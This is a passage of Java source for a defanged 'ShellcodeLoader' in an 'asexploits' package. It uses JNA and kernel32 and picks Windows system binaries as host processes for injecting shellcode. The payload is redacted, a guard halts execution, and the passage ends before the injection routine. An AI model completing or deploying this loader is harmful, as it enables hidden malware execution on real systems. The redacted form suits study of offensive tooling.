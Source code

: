 ## Defanged Java code 

```java
package asexploits;

import com.sun.jna.Memory;
import com.sun.jna.Native;
import com.sun.jna.Pointer;
import com.sun.jna.platform.win32.Kernel32;
import com.sun.jna.platform.win32.WinBase;
import com.sun.jna.platform.win32.WinDef;
import com.sun.jna.platform.win32.WinNT;
import com.sun.jna.ptr.IntByReference;
import com.sun.jna.win32.StdCallLibrary;
import com.sun.jna.win32.W32APIOptions;
import java.io.IOException;
import java.util.Random;

public class ShellcodeLoader {
  static Kernel32 kernel32;
  static IKernel32 iKernel32;

  public static String[] ProcessArrayx32 = new String[] {
      "C:\\Windows\\SysWOW64\\ARP.exe", "C:\\Windows\\SysWOW64\\at.exe", "C:\\Windows\\SysWOW64\\auditpol.exe", "C:\\Windows\\SysWOW64\\bitsadmin.exe", "C:\\Windows\\SysWOW64\\bootcfg.exe", "C:\\Windows\\SysWOW64\\ByteCodeGenerator.exe", "C:\\Windows\\SysWOW64\\cacls.exe", "C:\\Windows\\SysWOW64\\chcp.com", "C:\\Windows\\SysWOW64\\CheckNetIsolation.exe", "C:\\Windows\\SysWOW64\\chkdsk.exe",
      "C:\\Windows\\SysWOW64\\choice.exe", "C:\\Windows\\SysWOW64\\cmdkey.exe", "C:\\Windows\\SysWOW64\\comp.exe", "C:\\Windows\\SysWOW64\\diskcomp.com", "C:\\Windows\\SysWOW64\\Dism.exe", "C:\\Windows\\SysWOW64\\esentutl.exe", "C:\\Windows\\SysWOW64\\expand.exe", "C:\\Windows\\SysWOW64\\fc.exe", "C:\\Windows\\SysWOW64\\find.exe", "C:\\Windows\\SysWOW64\\gpresult.exe" };

  public static String[] ProcessArrayx64 = new String[] { "C:\\Windows\\System32\\rundll32.exe", "C:\\Windows\\System32\\find.exe", "C:\\Windows\\System32\\notepad.exe", "C:\\Windows\\System32\\ARP.EXE" };

  static {
    kernel32 = (Kernel32)Native.loadLibrary(Kernel32.class, W32APIOptions.UNICODE_OPTIONS);
    iKernel32 = (IKernel32)Native.loadLibrary("kernel32", IKernel32.class);
  }

  public static void main(String[] args) throws IOException {
    ShellcodeLoader jnaLoader = new ShellcodeLoader();
    String shellcode = null;
    boolean is64 = false;
    
    // --- PAYLOAD HAS BEEN DEFANGED ---
    // The original string contained 193 bytes of x86 shellcode to launch calc.exe
    shellcode = "[SHELLCODE_REDACTED_FOR_SAFETY]";
    
    System.out.println("\nShellcode Payload: " + shellcode);
    jnaLoader.loadShellCode(shellcode, is64);
  }

  public void loadShellCode(String shellcodeHex, boolean is64) {
    // Do not run if the shellcode is redacted
    if (shellcodeHex.contains("REDACTED")) {
        System.out.println("Execution halted: Shellcode has been defanged.");
        return;
    }

    String[] targetProcessArray = null;
    if (System.getProperty("sun.arch.data.model").equals("64") && is64) {
```